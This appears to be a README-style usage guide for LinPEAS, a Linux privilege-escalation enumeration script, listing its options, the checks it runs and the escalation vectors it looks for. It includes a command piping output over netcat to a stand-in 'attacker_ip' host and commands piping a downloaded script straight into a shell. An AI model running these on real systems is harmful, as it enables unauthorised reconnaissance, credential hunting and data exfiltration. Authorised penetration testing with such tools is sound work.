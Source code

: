 # LinPEAS - Linux Privilege Escalation Awesome Script

Comprehensive Linux privilege escalation enumeration script.

## Download and Usage

```bash
# Download latest version
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh

# Make executable
chmod +x linpeas.sh

# Run basic enumeration
./linpeas.sh

# Run with specific options
./linpeas.sh -a  # All checks including slow ones
./linpeas.sh -s  # Superfast (avoid sleeping and timeout)
./linpeas.sh -P  # Password search
```

## Output Options

```bash
# Save output to file
./linpeas.sh | tee linpeas_output.txt

# Colored output to file
./linpeas.sh -a 2>/dev/null | tee linpeas_results.txt

# Send output to remote server
./linpeas.sh | nc attacker_ip 9001
```

## Key Checks Performed

### System Information
- Operating system details
- Kernel version and exploits
- Installed software versions
- Environment variables

### User and Group Information
- Current user privileges
- Sudo permissions
- Group memberships
- User accounts analysis

### Network Configuration
- Network interfaces
- Active connections
- Listening services
- Firewall rules

### File System Analysis
- SUID/SGID binaries
- World-writable files
- Configuration files
- Backup files and logs

## Privilege Escalation Vectors

### Binary Exploits
- SUID binaries with known vulnerabilities
- Custom binaries analysis
- Library hijacking opportunities

### Configuration Issues
- Weak file permissions
- Cron job vulnerabilities
- Service misconfigurations
- Docker/container escapes

### Credential Discovery
- Password files
- SSH keys
- Database credentials
- API keys and tokens

## Color-Coded Results

- Red: Critical findings requiring immediate attention
- Yellow: Interesting findings for further investigation
- Green: Information gathering results
- Blue: Additional context information

## Integration

Works well with other privilege escalation tools:
- LinEnum
- Linux Smart Enumeration (LSE)
- Unix-privesc-check

## Remote Execution

```bash
# Execute remotely via curl
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh

# Via wget
wget -q -O - https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | bash
```
